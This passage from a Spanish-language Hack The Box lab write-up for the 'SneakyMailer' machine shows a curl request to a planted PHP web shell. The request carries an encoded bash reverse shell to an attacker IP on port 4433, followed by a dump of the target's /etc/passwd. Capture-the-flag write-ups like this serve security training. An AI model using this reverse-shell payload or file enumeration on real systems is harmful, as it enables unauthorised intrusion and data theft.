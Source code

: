 ```bash
–» curl -s http://dev.sneakycorp.htb/locurasdices.php?xmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.86%2F4433%200%3E%261%27
```

![bash1reverseshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sneakymailer/bash1reverseshell.png)

PERFECTO, sigamos enumerando.

Vemos varias cositas:

```bash
www-data@sneakymailer:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
low:x:1000:1000:,,,:/home/low:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:107:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
postfix:x:108:116::/var/spool/postfix:/usr/sbin/nologin
courier:x:109:118::/var/lib/courier:/usr/sbin/nologin
vmail:x:5000:5000::/home/vmail:/usr/sbin/nologin
```